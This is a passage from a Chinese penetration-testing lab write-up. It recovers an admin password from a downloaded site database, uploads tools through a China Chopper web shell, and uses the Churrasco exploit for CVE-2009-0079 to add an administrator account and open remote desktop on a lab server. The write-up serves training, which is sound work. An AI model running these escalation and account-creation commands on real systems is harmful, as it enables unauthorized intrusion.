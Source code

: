 右击 `bear.asp` 将其下载至桌面，并改名为 `bear.mdb`。打开明小子注入工具，依次点击 **数据库管理 -> 文件 -> 打开数据库**，选中桌面上的 `bear.mdb` 文件后打开：

![domain_open_bear_mdb](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/domain_open_bear_mdb.png)

在数据库中发现了 `admin` 表，以及主站后台管理员「linhai」的账号密码，从而证实了 `bear.asp` 文件为主站的后台数据库。

![domain_bear_mdb](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/domain_bear_mdb.png)

# 0x04 目标服务器系统的管理员密码是？

终于到达最后一关：「获取目标服务器的管理员密码」，我们先倒推一下思路：**获得服务器系统管理员权限 -> 破解管理员的密码哈希值 -> 上传提权工具 -> 寻找上传点**，因此首先要做的是确定上传点！

那么如何确定上传点呢？具有写权限的目录都可以作为上传点，在 C 盘下的每个目录尝试上传，发现 `C:\Inetpub`、`C:\RECYCLER`、`C:\wmpub` 三个目录具有写权限，其他目录均写入失败。下面演示以 `C:\wmpub` 作为上传点。

系统提权将利用 [**CVE-2009-0079**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-0079) 漏洞，采取 **cmd.exe + Churrasco.exe + 3389.bat** 的工具组合，其中 cmd.exe 是为了代替原服务器中权限受限的命令行交互环境，Churrasco.exe 是用于提权的漏洞利用工具（也可用 pr.exe 与 iis.exe 等提权工具代替），3389.bat 是打开 3389 端口及远程桌面服务的批处理脚本文件。

> 小贴士：CVE-2009-0079 是 Microsoft Windows RPCSS 服务隔离的本地权限提升漏洞，收录于 Microsoft 安全公告 [MS09-012](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-012)，影响 **Microsoft Windows Server 2003 SP2** 等多个系统版本。

首先将工具箱【提权工具】->【windows】目录中的三款工具，在菜刀的文件管理页面空白处，右键点击 **上传文件** 至服务器 `C:\wmpub` 目录下，接着右击 cmd.exe，选择 **虚拟终端** 进入到命令行交互界面：

![chopper_upload](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/chopper_upload.png)

输入 `systeminfo` 命令，获取服务器系统相关信息，得知系统为 Microsoft Windows Server 2003 Enterprise Edition SP2，且只安装了一个补丁程序，即可猜测该系统存在 CVE-2009-0079 漏洞：

![systeminfo](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/systeminfo.png)

接着切换到 `C:\wmpub` 目录，输入 `churrasco "net user ichunqiu key /add"` 命令，添加一个名为 `ichunqiu`、密码为 `key` 的用户：

![churrasco_user](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/churrasco_user.png)

再输入 `churrasco "net localgroup administrators ichunqiu /add"`命令，将 `ichunqiu` 用户添加到 `administrators` 用户组：

![churrasco_localgroup](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/churrasco_localgroup.png)

> 小贴士：可通过 `net user` 与 `net localgroup administrators` 查看命令是否执行成功。

最后输入 `churrasco 3389` 命令，打开 3389 端口及远程桌面服务：

![churrasco_3389](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/churrasco_3389.png)

确认提权成功后，在本机上点击 **开始 -> 运行**，输入 [`mstsc`](https://baike.baidu.com/item/mstsc)，远程计算机地址为 `172.16.12.2`（在实验场景拓扑图上可见）：

![mstsc](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%BD%91%E7%AB%99%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%AE%9E%E9%AA%8C/mstsc.png)
